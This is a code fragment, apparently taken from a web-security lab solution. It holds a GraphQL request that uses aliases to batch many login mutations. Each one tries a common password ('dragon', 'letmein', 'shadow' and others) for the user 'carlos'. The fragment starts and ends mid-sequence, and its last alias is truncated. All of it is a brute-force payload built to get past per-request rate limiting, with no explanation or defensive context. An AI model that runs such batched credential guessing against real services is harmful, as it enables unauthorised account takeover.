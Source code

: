 ```plain


bruteforce6:login(input:{password: "1234", username: "carlos"}) {
        token
        success
    }


bruteforce7:login(input:{password: "111111", username: "carlos"}) {
        token
        success
    }


bruteforce8:login(input:{password: "1234567", username: "carlos"}) {
        token
        success
    }


bruteforce9:login(input:{password: "dragon", username: "carlos"}) {
        token
        success
    }


bruteforce10:login(input:{password: "123123", username: "carlos"}) {
        token
        success
    }


bruteforce11:login(input:{password: "baseball", username: "carlos"}) {
        token
        success
    }


bruteforce12:login(input:{password: "abc123", username: "carlos"}) {
        token
        success
    }


bruteforce13:login(input:{password: "football", username: "carlos"}) {
        token
        success
    }


bruteforce14:login(input:{password: "monkey", username: "carlos"}) {
        token
        success
    }


bruteforce15:login(input:{password: "letmein", username: "carlos"}) {
        token
        success
    }


bruteforce16:login(input:{password: "shadow", username: "carlos"}) {
```